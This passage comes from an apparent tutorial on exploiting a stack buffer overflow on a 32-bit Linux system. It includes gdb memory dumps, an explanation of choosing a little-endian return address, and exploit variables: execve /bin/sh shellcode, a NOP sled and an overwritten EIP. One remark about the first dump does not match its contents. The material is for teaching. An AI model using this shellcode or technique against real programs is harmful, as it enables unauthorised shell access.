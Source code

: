 ```text
0xbffff630:     0x00000005      0x00000009      0x00000007      0xb7fde000
0xbffff640:     0x00000008      0x00000000      0x00000009      0x08048320
0xbffff650:     0x0000000b      0x000003e8      0x0000000c      0x000003e8
0xbffff660:     0x0000000d      0x000003e8      0x0000000e      0x000003e8
0xbffff670:     0x00000017      0x00000001      0x00000019      0xbffff69b
0xbffff680:     0x0000001f      0xbfffffe8      0x0000000f      0xbffff6ab
```

This has shown us the first 100 bytes from the top of the stack in hexadecimal. We can see our repeated aaaa blocks represented as 0x61616161 in hex.

Now we move back 400 bytes with an offset of -400:

```text
(gdb) x/100x $esp-400
0xbffff370:     0xbffff392      0x00000000      0x00000000      0x08048441
0xbffff380:     0xbffff392      0xbffff6cc      0x0804821d      0xb7fffc24
0xbffff390:     0x616118fc      0x61616161      0x61616161      0x61616161
0xbffff3a0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff3b0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff3c0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff3d0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff3e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff3f0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff400:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff410:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff420:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff430:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff440:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff450:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff460:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff470:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff480:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff490:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff4a0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff4b0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff4c0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff4d0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff4e0:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffff4f0:     0x61616161      0x61616161      0x61616161      0x61616161
```

We don't have to be exact, just pick something within the range where we see our payload of 0x61616161. So for this we pick 0xbffff4c0, note that you have to reverse the order of the last 8 characters as this system uses little endian (explanation of Endianness [here](https://en.wikipedia.org/wiki/Endianness). This means **0x bf ff f4 co** becomes **c0 f4 ff bf 0x**, but we drop the last 0x. Also as with the shellcode we add \x in front of each group of two.

Update our exploit:

```text
buffsize = 362
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nopsled = "\x90"*(buffsize-len(shellcode))
eip = "\xc0\xf4\xff\xbf"
```
